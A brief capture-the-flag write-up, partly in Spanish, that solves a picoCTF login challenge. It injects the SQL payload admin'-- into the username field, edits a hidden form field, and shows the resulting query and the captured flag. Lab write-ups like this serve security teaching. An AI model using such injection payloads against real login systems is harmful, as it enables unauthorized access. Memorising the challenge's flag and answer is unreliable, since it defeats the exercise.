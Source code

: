 ## Descripción

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Pistas

1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

## Solución

`Pusimos "admin'--" en el user y en la parte del código de la página, quitamos el "hidden" del 3er botón y le cambiamos el valor de "0" a "1"`

![[Pasted image 20250327123914.png]]


`username: admin'--`
`password: admin`
`SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'`

# `Logged in!`

`Your flag is: picoCTF{s0m3_SQL_f8adf3fb}`
## Notas Adicionales



## Referencias
- 

